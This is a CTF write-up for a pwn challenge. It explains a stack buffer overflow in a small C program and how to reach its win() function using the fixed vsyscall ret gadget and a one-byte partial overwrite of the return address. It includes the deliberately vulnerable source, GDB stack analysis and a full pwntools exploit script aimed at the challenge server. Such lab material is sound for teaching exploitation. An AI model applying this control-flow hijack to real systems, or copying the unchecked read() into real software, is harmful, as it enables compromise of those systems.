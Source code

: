 ![Screenshot 2025-02-26 113030](https://github.com/user-attachments/assets/fd4721d4-694d-45c0-9e46-d799995012e0)
\
I didn't solve this problem on time but i think this problem really testing our fundamental understanding in pwning (IMO). We will see why.

# NOTE :
Author said there's no need of bruteforcing in this challenge and also the challenge is not dependent in libc.
And also if **vsyscall** is not enabled in your machine please refer to [this](https://helpcenter.onlyoffice.com/installation/mail-enabling-vsyscall.aspx) article.

# Technique = Ret2win (with **vsyscall** gadget)

## 1. Checking given file.
Given a zip file that contains 2 files which are _chall_ and _src.c_
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win() {
    printf("IMPOSSIBLE! GRAHHHHHHHHHH\n");
    puts(getenv("FLAG"));
}

int main() {
    char buf[0x20];
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    puts("You pathetic pwners are worthless without your precious leaks!!!");
    read(0, buf, 0x50);
}
```

Checking binary protection.
```bash
[*] '/home/relster/Desktop/ctf/trx/pwn/virtual_instanity/dist/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

As we can see this challenge looks pretty simple at first glance, it looks like a simple ret2win challenge. But the problem now is, how do we return to the win function? there's no leak and PIE is enabled. The short answer is we can make use of the gadget available at _vsyscall_, so the gadget that we're gonna need is just a simple _ret_ gadget and we can find that by jumping to _vsyscall_'s address which located at fixed address at _0xffffffffff600000_, the instructions is somewhat look like this:
```asm
__vsyscall_page:
    mov $__NR_gettimeofday, %rax
    syscall
    ret
```
Now we have a _ret_ gadget, so the next technique is partially overwriting the return address in stack to win() function. We will see clearly what i mean below.


## 2. Analyzing Binary in GDB.
First let's set breakpoints at these addresses to check the stack before and after we send our junk input:\
![Screenshot 2025-02-27 015002](https://github.com/user-attachments/assets/f67c20ea-2bcf-405e-b7cc-48be49f90791)

Stack layout **before** junk input:\
![Screenshot 2025-02-27 015556](https://github.com/user-attachments/assets/36810dd3-6fad-48e2-8835-75161f019bbe)

Stack layout **after** junk input:\
![Screenshot 2025-02-27 015738](https://github.com/user-attachments/assets/64680289-0fff-4d1f-9bc9-d7b5b8eef4a1)
![Screenshot 2025-02-27 015823](https://github.com/user-attachments/assets/b26de687-6045-49bb-8536-f356dbacf302)

We can see our junk input (**0x41**s) are there on the stack.

Now let's put our attention at these addresses: \
**0x00007ffff7dd4d68** <-- __libc_start_call_main+120 \
**0x00005555555551da** <-- main \
![image](https://github.com/user-attachments/assets/f902b87e-d92b-4aaa-9259-f7cf7c23c152)

So the buffer is 0x20 (32 bytes) + 8 bytes (RBP) and the 41st byte is the rip, here we can just put the address of _vsyscall_ twice until it reaches the address **0x00005555555551da** which located on the stack as well.
![image](https://github.com/user-attachments/assets/a1afad91-040c-4ddd-83c8-83e38f0fe04e)

After that we just need to partially overwrite 1 more byte to the **main** function that located there, we will overwrite it with they byte '**\xa9**', why? let's take a look at the image below: \
![image](https://github.com/user-attachments/assets/5ce719d9-ddbc-44bb-bb76-c336693a46d2) \
Since the address of **main** and **win** is only different at their last 1 byte, we can just overflow that '**\xa9**' so that the address of **main** gets overwrite with **win**.

Let's first setup the fake flag in our environment variable for testing the exploit. We'll call the env as **FLAG** like in the binary itself.
```bash
export FLAG="FLAG{fake_flag_DEADBEEF}"
```

## 3. Final Exploit
```python
#!/usr/bin/env python

from pwn import *

context.arch = 'amd64'
#context.log_level = 'DEBUG'

TARGET = './chall'
HOST = 'virtual.ctf.theromanxpl0.it'
PORT = 7011

elf = ELF(TARGET)
#libc = ELF('./libc.so.6')
#ld = ELF("./ld-2.27.so")

if not args.REMOTE:
  p = process(TARGET)
else:
  p = remote(HOST, PORT)

gdb_script = f"""
    break *main
"""
#gdb.attach(p, gdbscript=gdb_script)

# ===================================== #

"""
0xffffffffff600000 0xffffffffff601000 r-xp     1000      0 [vsyscall]

0xffffffffff600000:  mov    rax,0x60
0xffffffffff600007:  syscall
0xffffffffff600009:  ret
"""

p.recvline()

payload = b'A' * 0x28
payload += p64(0xffffffffff600000) * 2
payload += b'\xa9'

p.send(payload)

p.interactive()
p.close()

# NOTE:
# ret2win (with vsyscall gadget)
```

## 4. Result
Local: \
![Screenshot 2025-02-27 024937](https://github.com/user-attachments/assets/dddafed0-2ee5-4c95-b41f-e4d47a629d45)

Remote: \
![Screenshot 2025-02-27 025009](https://github.com/user-attachments/assets/3ce2606c-1a1a-4309-b8a9-fccea68ae38f)


## Keyword
ret2win \
vsyscall \
partial address overwrite
